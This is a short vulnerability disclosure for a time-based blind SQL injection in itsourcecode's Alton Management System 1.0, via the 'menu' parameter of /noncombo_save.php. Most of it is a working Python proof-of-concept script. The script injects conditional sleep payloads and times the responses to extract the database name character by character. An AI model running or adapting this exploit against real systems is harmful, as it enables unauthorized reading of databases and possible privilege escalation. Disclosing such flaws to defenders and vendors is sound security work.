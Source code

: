 ### [description]

A vulnerability was found in Alton Management System for SQL injection of time-based blind bets via URI /noncombo_save.php with parameter name "menu".



### [Vulnerability Type]

SQL Injection



### [Vendor of Product]

Vendor: itsourcecode

Product: Alton Management System



### [Affected Product Code Base]

version 1.0

Download: https://itsourcecode.com/wp-content/uploads/2020/02/altonsystem.zip



### [Impact Escalation of Privileges]

true



### [POC] 

![image-20240808145802423](./images/image-20240808145802423.png)

![image-20240808144434602](./images/image-20240808144434602.png)

![image-20240808145604382](./images/image-20240808145604382.png)

```python
import requests
import datetime
import string

url = "http://localhost:8087/altonsystem/altonsystem/noncombo_save.php"
all_strings = string.printable
length = 12
res = ''
for _ in range(length):
    for i in all_strings:
        data = {
            "nop[]": 1,
            "nop[]": 2,
            "menu[]": f"1' and if((ascii(substr((select database()),{_},1))={ord(i)}),sleep(3),1)-- -"
        }

        time1 = datetime.datetime.now()
        response = requests.post(url=url, data=data).text
        # print(response)
        time2 = datetime.datetime.now()
        sec = (time2 - time1).seconds
        if sec > 2:
            res += i
            print(res)
            break
        else:
            pass
```

